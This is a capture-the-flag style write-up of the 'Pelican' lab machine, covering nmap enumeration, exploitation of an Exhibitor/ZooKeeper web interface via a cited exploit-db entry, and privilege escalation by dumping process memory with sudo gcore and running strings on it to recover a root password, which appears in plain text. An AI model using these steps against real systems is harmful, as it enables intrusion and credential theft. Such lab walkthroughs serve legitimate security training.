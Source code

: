 ```yaml
---
title: Pelican Write up
date: 2023-12-1 12:00:00 -500
categories: [writeup]
tags: [pelican,banzai,Hutch,dvr4]
# TAGS should always be lowercase
---
```


# Welcome to my Pelican Write-up 

## Recon

Let's start with some enumeration.



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -Pn -T4 -oA nmap 192.168.164.98</span>
</div>


Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 09:20 EST
Nmap scan report for 192.168.164.98 (192.168.164.98)
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
>22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)

>139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
>445/tcp  open  etbios-p  Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

>631/tcp  open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: Forbidden - CUPS v2.2.

>2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)

>8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)

><span style="color:purple;">8081/tcp open  http        nginx 1.14.2</span>
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">└─$ sudo nmap -p- --min-rate=5000 192.168.164.98</span>
</div>
<br>


![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image1.png)



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">└─$ sudo nmap -sU --min-rate=10000 192.168.164.98</span>
</div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image2.png)

## Initial Foothold

This machine's ssh and samba versions are not vulnerable. Also there is nothing to be found on port 8080.

Let's visit the web app running on port 8081

http://192.168.164.98:8081


![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image3.png)


We get redirected to http://192.168.164.98:8080/exhibitor/v1/ui/index.html

I searched in google for the zookeeper exploit then I found this:

https://www.exploit-db.com/exploits/48654



![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image8.png)

To exploit the vulnerability we need to follow these steps:

Config:

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image4.png)


Enable Editing

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image5.png)

Edit the script

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image6.png)


![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image7.png)


### <span style="color:green">2nd Method



![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image9.png)





## Privilege Escalation

Using linpeas I found:

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image10.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo -l</span>
</div>
<br>


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image11.png)

It seems like we can run /usr/bin/gcore without a password as charles.

![gif 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/heheboy.gif)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">It can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named core.$PID, that is then often filtered with strings to narrow down relevant information.


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> ps -ef | grep ssh</span>
</div>
<br>

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo gcore 526</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.526</span>
</div>
<br>

I got lots of output but nothing interesting. Then I tried with password instead of ssh


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> ps -ef | grep pass</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> sudo gcore 493</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.493</span>
</div>
<br>


![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image15.png)

Interesting! We found a password.

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image14.png)


<div style="background-color: #1e2124; padding: 10px;">
>harles@pelican:~$<span style="color:red"> su</span>
</div>
<br>

ClogKingpinInning731


<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /root/proof.txt && whoami && hostname && ip a</span>
</div>
<br>


![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image16.png)



<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /home/charles/local.txt && whoami && hostname && ip a</span>
</div>
<br>



![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image17.png)


pwned :)


